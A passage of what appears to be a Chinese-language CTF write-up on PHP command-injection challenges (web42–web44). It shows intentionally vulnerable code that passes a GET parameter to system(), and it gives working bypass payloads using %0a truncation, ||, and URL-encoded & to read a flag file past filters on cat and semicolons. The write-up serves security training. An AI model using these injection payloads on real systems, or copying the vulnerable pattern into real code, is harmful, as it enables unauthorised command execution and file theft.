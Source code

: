 ```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

这道题会将我们输入的命令与`" >/dev/null 2>&1"`进行拼接

> /dev/null 2>&1 意思是将标准输出和标准错误都重定向到 /dev/null 即不回显

导致我们无法成功执行

我们可以通过`%0a`截断的方式绕过

> tac fl*%0a

or

> ; //分号
> | //只执行后面那条命令
> || //只执行前面那条命令
> & //两条命令都会执行
> && //两条命令都会执行
>
> 过滤了分号和cat，可以用||和&来代替分号，tac代替cat
>
> 可构造playload:
> url/?c=tac flag.php||
> url/?c=tac flag.php%26
> 注意，这里的&需要url编码

#### web43

过滤了cat、；，

不是很影响

```
tac fl*%0a

or

tac flag.php||

...
//记得转url编码
```

#### web44

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
```